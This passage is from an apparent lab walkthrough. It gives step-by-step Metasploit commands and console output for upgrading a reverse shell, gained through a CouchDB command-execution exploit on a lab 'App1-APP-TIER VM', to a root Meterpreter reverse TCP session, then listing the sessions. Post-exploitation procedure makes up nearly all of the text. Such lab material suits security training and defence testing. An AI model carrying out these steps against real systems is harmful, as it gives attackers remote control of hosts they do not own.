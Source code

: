 ```console
[*] Server stopped.
```
3. You can now interact with the shell session or upgrade to a more powerful Meterpreter session. In order to upgrade to Meterpreter, you can run the below commands 
    * Type **background** to move the shell session to the background. Confirm by entering **y**
    * Type **use multi/manage/shell_to_meterpreter** to select the shell to meterpreter upgrade module
    * Type **set LPORT 8081** to define the local port to use. The reverse shell will be established to this local port
    * Type **set session 2** to indicate the reverse command shell session from **App1-APP-TIER VM** is the one we want to upgrade
    * Type **exploit** to establish the session

```console
background
Background session 2? [y/N]  y
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > use multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > set LPORT 8081
LPORT => 8081
msf5 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf5 post(multi/manage/shell_to_meterpreter) > exploit
```
4. Confirm a **Meterpreter** reverse TCP session was established from **App1-APP-TIER VM** back to the **Extermal VM** and interact with the session.
```console
[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.114.209.151:8081
[*] Sending stage (980808 bytes) to 10.114.209.148
[*] Meterpreter session 3 opened (10.114.209.151:8081 -> 10.114.209.148:59526) at 2020-07-22 09:42:42 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
```
5. You can now interact with the Meterpreter session. For instance, you can run the below commands to gain more inforation on the exploited **App1-APP-TIER VM**
    * Type **sessions -l** to see all established sessions
```console
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                                                         Connection
  --  ----  ----                   -----------                                                         ----------
  1         meterpreter php/linux  www-data (33) @ 273e1700c5be                                        10.114.209.151:4444 -> 192.168.10.101:52496 (192.168.10.101)
  2         shell x64/linux                                                                            10.114.209.151:4445 -> 10.114.209.148:50665 (192.168.20.100)
  3         meterpreter x86/linux  no-user @ fd5e509d541b (uid=0, gid=0, euid=0, egid=0) @ 172.19.0.2  10.114.209.151:8081 -> 10.114.209.148:59526 (172.19.0.2)
```
> **Note**: the external IP address (10.114.209.148) the above example for sessions 2 and 3 is the NATted IP address **App1-APP-TIER VM** to establish the reverse shell. NAT was pre-configured during the automated lab deployment.
